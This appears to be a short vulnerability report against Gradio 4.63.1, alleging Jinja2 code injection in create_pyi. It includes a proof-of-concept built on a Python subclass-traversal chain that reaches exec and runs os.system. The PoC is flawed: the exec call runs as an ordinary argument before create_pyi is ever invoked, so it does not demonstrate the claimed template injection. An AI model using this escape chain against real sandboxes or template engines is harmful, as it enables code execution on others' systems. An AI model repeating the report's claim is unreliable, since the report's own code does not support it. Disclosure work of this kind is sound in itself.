 ### version

4.63.1

### description

When Jinja2 is rendering, it does not check the user input, resulting in code injection.

### Source code

```python
def create_pyi(class_code: str, events: list[EventListener | str]):
    template = Template(INTERFACE_TEMPLATE)
    events = [e if isinstance(e, str) else e.event_name for e in events]
    return template.render(events=events, contents=class_code)
```

PoC:

```python
import gradio as gr

# Define the events
events = ["on_load"]

pyi_code = gr.component_meta.create_pyi(''.__class__.__base__.__subclasses__()[139].__init__.__globals__['__builtins__']['exec']('import os; os.system("id")') , events)
```

### Impact:

The vulnerability allows attackers to execute arbitrary code.
